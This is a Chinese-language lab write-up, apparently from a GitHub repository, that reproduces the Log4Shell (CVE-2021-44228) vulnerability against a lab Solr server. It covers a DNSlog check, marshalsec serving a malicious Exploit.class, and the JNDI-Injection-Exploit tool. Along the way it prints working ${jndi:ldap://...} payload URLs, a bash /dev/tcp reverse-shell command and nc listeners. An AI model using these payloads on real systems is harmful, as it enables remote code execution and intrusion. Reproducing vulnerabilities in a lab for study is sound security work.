

# 漏洞复现

## 介绍

关于CVE-2021-44228，我这里使用了三种方法验证或复现。分别是：1. DNSlog验证。2. marshalsec加恶意类Exploit.class。3. JNDI-Injection-Exploit

## DNSlog验证

简单收一下过程：使用dig.pm获得一个域名cc546f3aae.ddns.1433.eu.org.，访问solr即http;//192.168.140.141:8983/solr，使用burpsuite抓包并修改http头。添加${jndi:ldap://{sys:java.version}.cc546f3aae.ddns.1433.eu.org.}。然后solr服务器解析在jndi方法中使用dns协议访问的我的域名，故有解析记录出现在dig.pm中。

具体实现：

1. 获取域名


2. burpsuite抓包并修改http头，然后放行，这里给出前后对比

前：


后：


3. dig.pm中可以看到dns记录


注：这里除了java版本还可以使用其他的如os.name查看系统名称


到此DNSlog验证完成。

## marshalsec加Exploit.class

使用marshalsec作为jndi方法的ldap或rmi服务器，在攻击机编写Exploit.class，使用python http访问来实现远程命令执行。下载构建marshalsec和编写Exploit.class见environment.md

具体过程：

1. 在Exploit.class的目录中使用python开启http服务

```bash
python3 -m http.server 8000
```

2. 在marshalsec/target目录下开启ldap或rmi服务并去访问Exploit.class文件，命令见图中。这里两种都演示一下，后续使用ldap。

ldap：


rmi：



二者使用的端口好不同，ldap为1389，rmi为1099

3. 准备工作结束，在浏览器访问http://192.168.140.141:8983/solr/admin/cores?action=${jndi:ldap://192.168.140.140:1389/Exploit}，即可触发漏洞，在ldap服务界面和python3 http服务界面分别有回显如图：


都有连接记录或访问记录

4. 验证：在靶机docker容器内部查看，文件是否创建成功。结果如图：


找到pwned.txt，命令执行成功

5. 尝试反弹shell，前边流程不变，修改执行的命令为：`bash -i >& /dev/tcp/192.168.140.140/7777 0>&1`，并使用`nc -lvnp 7777`监听相应端口，结果：


至此结束。

##  JNDI-Injection-Exploit

使用这个的过程更加快捷，它应该是将想要执行的命令自动生成一个恶意文件，不必自己编写：

具体：

1. 先是对反弹shell的命令base64编码，然后启动服务。该工具会根据想要执行的命令生成.class，然后开启ldap和rmi服务，以及给出可访问的执行该命令的文件的地址。


2. 再打开一个终端监听7777端口，`nc -lvnp 7777`
3. 如图中紫色部分的提示，使用攻击机浏览器访问http://192.168.140.141:8983/solr/admin/cores?action=${jndi:ldap://192.168.140.140:1389/bg1qmk}
4. 结果展示:

jndi：


nc：


成功拿到shell

服务器端:


至此结束